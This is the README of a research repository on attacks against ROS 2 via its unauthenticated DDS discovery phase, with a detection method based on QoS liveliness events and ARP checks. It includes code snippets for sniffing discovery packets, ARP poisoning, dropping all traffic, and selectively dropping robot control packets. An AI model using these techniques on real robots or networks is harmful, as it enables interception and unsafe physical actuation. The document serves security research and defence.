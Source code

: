 # Cross-Layer Attacks from ROS 2 Discovery phase
<p align="center">
  <img alt="ROS2 logo" src="https://img.shields.io/badge/ROS--2-Humble-blue?style=for-the-badge">
  <img alt="Fast DDS logo" src="https://img.shields.io/badge/Fast--DDS-2.6.9-brightgreen?style=for-the-badge">
  <img alt="Scapy" src="https://img.shields.io/badge/Scapy-Packet%20Crafting-orange?style=for-the-badge">
</p>

## 📝 Paper Summary
ROS 2 protects communication data through SROS 2, but the unauthenticated discovery phase remains a security blind spot.
During the discovery phase, metadata such as IP addresses, ports, and participant identifiers are exposed and can be leveraged for ARP-based snooping, spoofing, and cross-layer attacks.

We design and implement cross-layer attack chains that manipulate lower network layers by leveraging these discovery-phase weaknesses.  
In real autonomous robot scenarios, we demonstrate that:

- **DoS attacks**: Even a short DoS lasting ~18 seconds can cause localization failure and induce a *kidnapped-robot* state.  
- **Selective forwarding attacks**: Dropping specific control packets can covertly block robot commands, leading to unsafe actuation, collisions, and potential physical damage.  

To counter these threats, we propose a detection mechanism that leverages QoS events, specifically ROS 2 liveliness events, to raise alerts during abnormal conditions and enable timely countermeasures.

Experiments were conducted on ROS 2 Humble with Fast DDS 2.6.9 over IEEE 802.11ac wireless links.
The attack code is released here to highlight how easily such vulnerabilities can be reproduced in practice, even against real robot systems.

# 💡 How the Cross-Layer Attack Chain Works
## Step 1. Multicast Join & SPDP Reception
The script consists of three logical stages: (1) joining the DDS discovery multicast, (2) capturing discovery packets, and (3) parsing RTPS to extract unicast locators.
### 1. Joining the Multicast Group
> - Create a UDP socket and call IP_ADD_MEMBERSHIP to join the standard ROS 2 discovery multicast group so that SPDP announcements reach the host.
> ```python
> mreq = struct.pack("4s4s", socket.inet_aton(MCAST_GRP), socket.inet_aton(LISTEN_IP))
> sock.setsockopt(socket.IPPROTO_IP, socket.IP_ADD_MEMBERSHIP, mreq)
> ```

### 2. Packet Sniffing with Scapy
> - Use the Scapy tool to sniff and capture SPDP traffic with a BPF filter, processing each packet.
> ```python
> sniff(
>     filter=f"udp and host {MCAST_GRP} and port {SPDP_PORT}",
>     prn=packet_handler,
>     store=False
> )
> ```
### 3. Unicast Locator Extraction (RTPS Parsing)
> - Scan RTPS submessages, find DATA (ID 0x15), then parse the SerializedPayload → ParameterList to extract Unicast Locator parameters.
> ```python
> # Find DATA Submessage (ID: 0x15)
> if submessage_id == 0x15:
>     # Loop through ParameterList
>     while param_offset < param_list_end:
>         # Find Unicast Locator PID
>         if pid in [PID_METATRAFFIC_UNICAST_LOCATOR, PID_DEFAULT_UNICAST_LOCATOR]:
>             # Decode Locator data (kind, port, address)
>             ...
>             return f"UDPv4:{ip_addr}:{port}"
> ```


## Step 2. Cross-Layer Attack Execution (MITM / DoS / Selective Forwarding)
> **Purpose.**
> 
>This section documents a controlled feasibility demonstration conducted in a closed testbed to evaluate detection and resilience of ROS 2/DDS-RTPS systems. The procedures are intended solely for defensive research under proper authorization.
### 1. ARP Poisoning
> - Alters the ARP cache tables of the target nodes, rerouting their traffic through the attacker and thereby establishing an man-in-the-middle (MITM) position between the endpoints.
> ```python
> # Poison the target's ARP table
> arp = ARP(op=2, pdst=victim_ip, psrc=source_ip, hwdst=victim_mac)
> sendp(Ether(dst=victim_mac)/arp, iface=iface, verbose=False)
> ```

### 2. Traffic Hijacking
> **Denial-of-Service (Drop-All topic)**
> - Disables forwarding at the interposed test node so that intercepted traffic is not relayed, effectively severing connectivity between peers.
> ```python
> # Disable IP forwarding on the attacker's machine
> if sysname == "Linux":
>     subprocess.run(["sysctl", "-w", f"net.ipv4.ip_forward=0"], check=True)
> ```

> **Selective Forwarding Attack (Topic-Aware)**
> - Inspects RTPS headers to identify Writer Entity IDs associated with designated application streams and conditionally drops those packets while forwarding others, making the disruption harder to detect.
> ```python
> def nfqueue_callback(packet, state):
>     """NetfilterQueue callback for selective packet dropping"""
>     pkt = IP(packet.get_payload())
>     ...
>             # Check for target Writer Entity ID
>             for submsg in rtps_data.get('submessages', []):
>                 writer_entity_id = submsg.get('writer_entity_id', 'N/A')
>                 if writer_entity_id and state.should_drop_entity_id(writer_entity_id):
>                     print(f"[DROP] Blocking packet with Writer Entity ID: {writer_entity_id}")
>                     packet.drop()  # Drop specific packets
>                     return
>             
>     packet.accept()  # Forward all other packets
> ```

---
## 🔎 The Detection: QoS Triggered Anomaly Detection.
### 📜 Overview
This configuration underpins the node’s diagnostic capability. When a liveliness event is triggered (i.e., the liveliness lease is not renewed within lease_duration), the node launches an automated investigation rather than treating it as a mere disconnection. 

Immediately after the event, the node inspects the ARP table to distinguish causes:

- **No table change** → likely a benign network condition (temporary latency, loss, roaming).

- **Table change** → potential attack (e.g., IP→MAC remap of a publisher/gateway, or a single MAC mapped to multiple IPs).

This two-step process differentiates transient delay from deliberate manipulation.

### 1. QoS Event Callback Configuration
> - Liveliness callback fires when the publisher’s liveliness lease expires (NOT_ALIVE).
> ``` cpp
> auto qos = rclcpp::QoS(rclcpp::KeepAll()).reliable();
> qos.liveliness(RMW_QOS_POLICY_LIVELINESS_AUTOMATIC);
> qos.liveliness_lease_duration(std::chrono::seconds(2)); 
> // Bind the liveliness_callback function to the event
> rclcpp::SubscriptionOptions options;
> options.event_callbacks.liveliness_callback =
> std::bind(&MinimalSubscriber::liveliness_callback, this, _1);
> ```
>
### 2. Event-Driven Diagnostics (ARP Verification)
> **Update ARP Cache**: The node executes the system command arp -n to fetch the current IP-to-MAC address mappings on the network.
>
> **Verify Changes & Detect Conflicts**: It compares the newly fetched ARP table against its previously stored version.
> Critically, it checks if a single MAC address is mapped to multiple IP addresses.
> ``` cpp
> // C++ code snippet for the liveliness callback
> void MinimalSubscriber::liveliness_callback(rclcpp::QOSLivelinessChangedInfo &event)
> {
> // If a publisher is declared "not alive"...
>   if (event.not_alive_count > 0) {
>       // ...update the local ARP cache...
>       update_arp_cache();
>       // ...and verify it for changes and conflicts.
>       verify_arp_changes();
>     }
> }
> ```
✅ Platform note: Implemented and tested on Linux; root privileges may be required to access detailed arp cache table info.

## 📢 Notice
This project is currently compatible with ROS 2 Humble using Fast DDS 2.6.9. 
